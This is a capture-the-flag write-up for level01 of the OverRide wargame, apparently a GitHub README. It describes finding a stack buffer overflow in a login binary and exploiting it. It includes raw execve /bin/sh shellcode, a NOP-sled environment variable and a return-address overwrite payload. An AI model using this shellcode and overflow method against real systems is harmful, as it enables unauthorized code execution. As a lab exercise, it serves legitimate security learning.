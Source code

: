 # Level01

## Reconnaissance

We have two security enabled:
- **RELRO Partial enabled** = GOT (Global Offset Table) placed were we cannot overflow

With `strings`, we get some interresting informations
```shell
level01@OverRide:~$ strings level01 
...
verifying username....
dat_wil
admin
********* ADMIN LOGIN PROMPT *********
Enter Username: 
nope, incorrect username...
Enter Password: 
nope, incorrect password...
...
verify_user_name
a_user_name
...
```

We have:
- username `dat_wil`: tryed and seems to be the right one
- password `admin`: does not work

Lets have a look with gdb:
We notice that the password we insert is stored in a buffer of 64 bytes but fgets is called to read 0x64 bytes so 100 bytes
We can then overwrite the return address.
![stack](Ressources/stack.png)
Offset of 80 to overwrite the return address.

## Exploit

We need a shell code: `\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80`
and we need somewhere to store it and because we are overwriting the return pointer of the main function, we should not
store our shellcode in the buffer since it will be deallocated at the end of main.
So we can try to store it in the env.
`export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80"')`
With gdb, we get the address by print the stack (env esp+500): `0xffffd7db`

payload => `(echo "dat_wil"; python -c 'print "A" * 80 + "\x53\xd8\xff\xff"') > /tmp/level01`

